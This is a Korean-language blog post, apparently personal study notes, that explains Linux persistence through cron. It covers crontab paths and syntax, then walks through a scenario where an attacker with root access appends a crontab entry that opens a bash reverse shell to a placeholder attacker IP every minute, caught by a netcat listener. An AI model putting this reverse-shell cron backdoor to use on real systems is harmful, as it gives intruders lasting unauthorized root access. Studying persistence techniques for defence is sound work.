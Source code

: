 ```yaml
---
layout: post
title: "cron 공부"
date: 2025-09-06 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

지속성`Persistence`은 공격자가 시스템 재부팅 · 세션 종료 · 초기 침투에 사용된 취약점이 패치된 후에도 시스템에 대한 접근 권한을 계속 유지하는 기술이다. 권한을 획득한 것만큼이나 그 권한을 잃지 않는 것이 중요하며 리눅스 환경에서는 주기적으로 명령을 실행하는 `cron` 스케줄러가 지속성 확보를 위한 주요 수단으로 사용된다.

---

### 2. cron 기본

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다. 사용자는 `crontab` 파일을 수정하여 작업을 예약할 수 있다.

*   **주요 경로:**
    *   `/etc/crontab`: 시스템 전체에 적용되는 cron 작업 파일. 사용자 계정을 지정하여 명령을 실행할 수 있다.
    *   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일이 저장되는 디렉터리. `root` 사용자의 crontab은 여기에 위치한다.
*   **형식:**
    ```
    # ┌───────────── 분 (0 - 59)
    # │ ┌───────────── 시 (0 - 23)
    # │ │ ┌───────────── 일 (1 - 31)
    # │ │ │ ┌───────────── 월 (1 - 12)
    # │ │ │ │ ┌───────────── 요일 (0 - 6)
    # │ │ │ │ │
    # * * * * * <사용자> <실행할 명령어>
    ```

---

### 3. 사용 예시: crontab을 이용한 리버스 쉘 연결

이전 게시글에서 `root` 권한을 획득한 공격자가 매 분마다 공격자 PC로 리버스 쉘을 연결하는 cron 작업을 등록하여 시스템에 대한 영구적인 백도어를 생성하는 상황이다.

#### **1. 공격자 리스너 실행**
공격자 PC에서 `netcat`을 이용해 4444번 포트에서 연결을 대기한다.
```bash
nc -lvnp 4444
```

#### **2. 대상 서버에 cron 작업 등록**
획득한 `root` 쉘에서 `root` 사용자의 crontab에 1분마다 리버스 쉘을 실행하는 작업을 추가한다. `crontab -e`를 사용하는 대신 `echo`와 파이프를 이용하여 비대화형(non-interactive) 방식으로 작업을 등록할 수 있다.
```bash
# 기존 crontab 내용을 유지하면서 새 작업을 추가
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1") | crontab -
```

#### **3. 연결 수신 확인**
cron 작업이 등록되고 1분 이내에 공격자 PC의 `netcat` 리스너는 대상 서버로부터 들어오는 `root` 권한의 쉘 연결을 수신하게 된다.
   ![CronShell](/assets/images/Cron_1.png)

이제 대상 서버가 재부팅되거나 다른 관리자가 악성 프로세스를 종료시키더라도 `cron` 데몬은 매 분마다 공격자에게 다시 쉘을 제공하므로 공격자는 시스템에 대한 통제권을 잃지 않게 된다.

<hr class="short-rule">
